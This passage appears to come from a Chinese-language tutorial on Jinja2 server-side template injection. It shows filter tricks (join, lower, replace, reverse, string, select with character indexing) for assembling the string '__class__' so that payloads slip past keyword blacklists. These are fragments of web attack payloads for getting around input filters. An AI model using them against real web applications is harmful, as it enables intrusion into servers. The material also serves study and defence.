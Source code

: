 
```plain
""[['__clas','s__']|join] 或者 ""[('__clas','s__')|join]
相当于
""["__class__"]
Plain Text
```



5.**lower**


```plain
""["__CLASS__"|lower]很像之前的upper()函数
Plain Text
```



6.**replace reverse**


我们可以利用替换和反转还原回我们要用的字符串了


```plain
"__claee__"|replace("ee","ss") 构造出字符串 "__class__""__ssalc__"|reverse 构造出 "__class__"
Plain Text
```



7.**string**


功能类似于python内置函数 str.


有了这个的话我们可以把显示到浏览器中的值全部转换为字符串再通过下标引用，就可以构造出一些字符了，再通过拼接就能构成特定的字符串。


```plain
().__class__   出来的是<class 'tuple'>(().__class__|string)[0] 出来的是<
Plain Text
```



8.**select unique**


```plain
Filters a sequence of objects by applying a test to each object, and only selecting the objects with the test succeeding.If no test is specified, each object will be evaluated as a boolean.通过对每个对象应用测试并仅选择测试成功的对象来筛选对象序列。如果没有指定测试，则每个对象都将被计算为布尔值
Returns a list of unique items from the given iterable.
Plain Text
```



```plain
()|select|string结果如下<generator object select_or_reject at 0x0000022717FF33C0>
(()|select|string)[24]~(()|select|string)[24]~(()|select|string)[15]~(()|select|string)[20]~(()|select|string)[6]~(()|select|string)[18]~(()|select|string)[18]~(()|select|string)[24]~(()|select|string)[24]
得到字符串"__class__"
Plain Text
```
